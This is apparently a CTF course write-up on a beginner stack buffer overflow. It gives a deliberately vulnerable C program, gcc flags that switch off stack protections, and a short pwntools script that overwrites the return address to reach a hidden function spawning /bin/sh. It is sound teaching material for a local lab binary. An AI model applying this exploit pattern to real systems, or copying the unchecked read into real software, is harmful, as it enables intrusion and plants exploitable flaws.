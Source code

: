 ```yaml
---
title: Simple Buffer Overflow - 0x01
tags: [CTF, PWN, NTUSTISC]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple Buffer Overflow - 0x01
<!-- more -->
###### tags: `CTF` `PWN`

Follow the concept of lecture [0x00](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/SJAt7Pd5s)

## Original Code
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void y0u_c4n7_533_m3()
{
    execve("/bin/sh", (char *[]){0}, (char *[]){0});
}

int main()
{
    char buf[16];
    puts("This is your first bof challenge ;)");
    fflush(stdout);
    read(0, buf, 0x30);
    system("pause");
    return 0;
}
```

The secret function is aim to create a shell, therefore, our main purpose is try to get the shell by using buffer overflow.
We can check `bof` in the main function that it read the string with length `0x30` that bigger than `buf` size.
* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof3 bof3.c -zexecstack -no-pie -fno-stack-protector -z norelro
    ```
    ![](https://imgur.com/ehuCWTI.png)
    * Reference
    [pwn_resource](https://github.com/jwang-a/CTF/blob/master/TIPS/pwn_resource)

## Exploit
1. Tried to get the address of `y0u_c4n7_533_m3()` by using `objdump -d -M intel bof`. → `0x4011b6`
![](https://imgur.com/mlaNNCT.png)
2. Then we can construct the payload as below:
    ```python!
    from pwn import *
    r = process('./bof')
    magic_addr = 0x4011b6
    payload = b'a'*0x18 + p64(magic_addr)
    r.recvuntil(';)\n')
    r.send(payload)
    r.interactive()
    ```
3. Then we get shell!!!
    ![](https://imgur.com/Tug5Uii.png)